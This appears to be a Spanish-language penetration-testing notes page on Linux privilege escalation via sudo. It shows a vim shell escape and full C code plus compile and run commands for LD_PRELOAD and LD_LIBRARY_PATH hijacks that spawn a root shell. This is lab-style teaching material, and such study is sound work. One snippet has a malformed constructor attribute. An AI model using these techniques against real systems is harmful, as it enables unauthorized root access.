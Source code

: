 # Sudo

## Shell escape sequences

Enumere los programas que Sudo permite ejecutar a su usuario:

sudo -l&#x20;

Ejemplo en la maquina :

**`NOPASSWD: /usr/bin/vim (root)`**

Visitar [GTFOBins](https://gtfobins.github.io/)

Como objetivo probare a vim para poder ser root.

Se puede ejecutar

`sudo vim -c ':!/bin/sh'`

O entra en vim y ejecutar `!/bin/sh`&#x20;

Salimos de vim y ya somos root.

## Environment Variables

implica aprovechar la configuración de sudo para heredar ciertas variables de entorno del usuario que ejecuta el comando. Esto puede permitir que un atacante modifique variables de entorno específicas para ejecutar comandos con privilegios elevados que de otro modo no tendría permiso para ejecutar.

Sudo se puede configurar para heredar ciertas variables de entorno del entorno del usuario.

`sudo -l`

`env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH`

`LD_PRELOAD y LD_LIBRARY_PATH` se heredan del entorno del usuario.

`LD_PRELOAD` carga un objeto compartido antes que otros cuando se ejecuta un programa. `LD_LIBRARY_PATH` proporciona una lista de directorios donde se buscan primero las bibliotecas compartidas.

Cree un objeto compartido utilizando el código ubicado en /home/user/tools/sudo/preload.c:

**Código**&#x20;

```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setresuid(0,0,0); 
    system("/bin/bash -p"); 
} 

gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

Ejecute uno de los programas que se le permite ejecutar a través de sudo, mientras establece la variable de entorno LD\_PRELOAD en la ruta completa del nuevo objeto compartido:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

Debería aparecer un shell de root. Salga del shell antes de continuar. Dependiendo del programa que elija, es posible que también necesite salir de este.

Ejecute ldd contra el archivo de programa apache2 para ver qué bibliotecas compartidas utiliza el programa:&#x20;

`ldd /usr/sbin/apache2`

Cree un objeto compartido con el mismo nombre que una de las bibliotecas enumeradas (libcrypt.so.1) utilizando el código ubicado en library\_path.c:

```
library_path.c 
#include <stdio.h> 
#include <stdlib.h> 
static void hijack() 
attribute((constructor)); 

void hijack() { 
    unsetenv("LD_LIBRARY_PATH"); 
    setresuid(0,0,0); system("/bin/bash -p"); 
} 
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /library_path.c

sudo LD_LIBRARY_PATH=/tmp apache2

```

<mark style="color:red;">**Recursos**</mark>

[Sudo Part-2 – Linux Privelege Escalation - Juggernaut-Sec](https://juggernaut-sec.com/sudo-part-2-lpe/)
